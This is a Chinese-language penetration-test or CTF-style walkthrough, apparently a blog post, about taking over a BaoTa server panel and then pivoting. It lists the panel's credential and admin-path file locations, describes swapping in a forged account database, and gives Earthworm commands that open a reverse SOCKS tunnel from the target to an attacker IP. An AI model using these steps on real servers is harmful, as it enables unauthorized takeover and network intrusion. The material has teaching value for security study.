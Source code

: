 ![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACNcauKRiaEyJsmN49AHgI7bng90Ws2f6Y28ib6TynRYGuq76y6LRpafaurG6mygX9ZUWB0AQ2ZH7nA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACNcauKRiaEyJsmN49AHgI7bK7oRrme1gVzcc08IWZsEsJzCYqGn88AZYFrotl7LNBHiagmtfribMFbw/640?wx_fmt=png)

这里考点不是绕过这些函数，有点类似脑筋急转弯吧，思维放开了看。

既然考点是 “宝塔” 也禁用这么多函数，权限却是“system”，那就找找宝塔的配置文件、后台路径。

后台路径:/www/server/panel/data/admin_path.pl  
登录账号：/www/server/panel/data/default.db(账号和加密的密码)  
密码:/www/server/panel/default.pl(初始默认密码)

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACNcauKRiaEyJsmN49AHgI7b6C9NWYGibwpeUO6MCkFHGicvcCouuD7NTeVQo9TicWOHDQAxamQxghuNw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACNcauKRiaEyJsmN49AHgI7bgxVS0cohMGUezc8HEompCBkHqNE8CgdiczD2K0mBr4cwu79n8MynicsA/640?wx_fmt=png)

有路径没账号，这也没办法突破，爆破是不可能的，宝塔面板输错 5 次就被禁用（我也不知禁用 IP 还是什么）。

上面也说了是 “system” 权限，那就把数据文件（C:/BtSoft/panel/data/default.db）下载下来，然后添加我的账号密码不就可以了，而且直接添加的账号密码的话又不知怎么样的加密方式，那就自己搭建一个本地宝塔，然后创建账号，将本地的账号密码添加（利用 pycharm 添加数据）到目标机宝塔数据库文件中（C:/BtSoft/panel/data/default.db）不就可以了。

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACNcauKRiaEyJsmN49AHgI7b3AapLD4MbvDQKUS9lFibay4jphUbicT0ib5dAdyIgA6tIUE6sqyaZGxmA/640?wx_fmt=png)

然后替换目标机上的（C:/BtSoft/panel/data/default.db）文件进行登录。

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACNcauKRiaEyJsmN49AHgI7bweHLWicGXojQb0LZgwfRQhhY1laxyGSeWysjZibZsZM9AGwQ5VFwvFpg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACNcauKRiaEyJsmN49AHgI7b3QUtPe4c886GOy4ickWqTMjj0QLDovIdK72jywYAKC2KjkkibiaiaecicxA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACNcauKRiaEyJsmN49AHgI7buso3A7mW60kcAvO1XuicFHnWVN6l5I1fIZZz4b6n0hMrUicqQeArOOvA/640?wx_fmt=png)

运行上传成功，并注入进程，还原宝塔面板的禁用函数

02

  

**第二关：Earthworm 穿透、Redis-getshell**

上传 EW（Earthworm）

VPS（攻击机）执行以下命令

ew.exe-s rcsocks -l 1080 -e 888

说明：该命令的意思是在我们公网 VPS（攻击机）上添加一个转接隧道，把 1080 端口收到的代理请求转交给 888 端口。

服务器端执行以下命令

ew.exe-s rssocks -d 2.2.2.2（攻击机）-e888

说明：该命令的意思是在服务器（目标机）上启动 SOCKSV5 服务，并反弹到 IP 地址为 2.2.2.2（攻击机）的服务器 888 端口上。

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACNcauKRiaEyJsmN49AHgI7bMG3x4d2vUptEIFMqqTxBgD9llAZn4s6lsaxiciaib5oVrJTics6wOibyicfw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACNcauKRiaEyJsmN49AHgI7bIicLJHIsY0RiaUVGkmt8qe4ycdloPLg6030V7SibbA4wcfKJ7WnRgQwAg/640?wx_fmt=png)

